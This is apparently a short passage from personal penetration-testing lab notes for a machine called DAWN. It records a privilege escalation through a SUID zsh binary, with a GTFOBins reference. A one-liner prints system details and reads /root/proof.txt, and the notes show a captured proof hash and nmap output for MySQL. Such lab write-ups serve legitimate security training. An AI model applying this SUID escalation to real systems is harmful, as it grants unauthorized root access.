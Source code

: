 ![[Pasted image 20231112233333.png]]
https://gtfobins.github.io/gtfobins/zsh/#suid
Or just run 
```sh
zsh
```

Seems I'm root now so capturing confirmation screenshots.

```sh
echo " "; echo "uname -a:"; uname -a; \
echo " "; echo "hostname:"; hostname; \
echo " "; echo "id"; id; \
echo " "; echo "ifconfig:"; /sbin/ifconfig -a; \
echo " "; echo "proof:"; cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null; echo " "
```
![[Pasted image 20231112233508.png]]
proof.txt: `04806b86f593932883ad60cc6b0299c4`

# Port 3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1 - IGNORED
	| mysql-info: 
	|   Protocol: 10
	|   Version: 5.5.5-10.3.15-MariaDB-1
	|   Thread ID: 16
	|   Capabilities flags: 63486
	|   Some Capabilities: SupportsCompression, Support41Auth, SupportsTransactions, Speaks41ProtocolOld, LongColumnFlag, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, InteractiveClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, ODBCClient, SupportsLoadDataLocal, FoundRows, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
	|   Status: Autocommit
	|   Salt: 'dGr*w=ht14Nm[_J6mEO
	|_  Auth Plugin Name: mysql_native_password
	Service Info: Host: DAWN
